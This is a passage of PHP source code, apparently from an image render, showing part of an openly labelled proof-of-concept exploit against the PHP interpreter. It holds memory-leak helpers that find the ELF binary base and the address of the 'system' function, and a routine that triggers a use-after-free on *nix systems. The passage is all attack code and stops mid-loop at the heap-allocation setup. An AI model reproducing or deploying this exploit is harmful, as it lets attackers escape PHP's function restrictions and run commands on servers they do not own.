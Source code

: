 ```php
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
```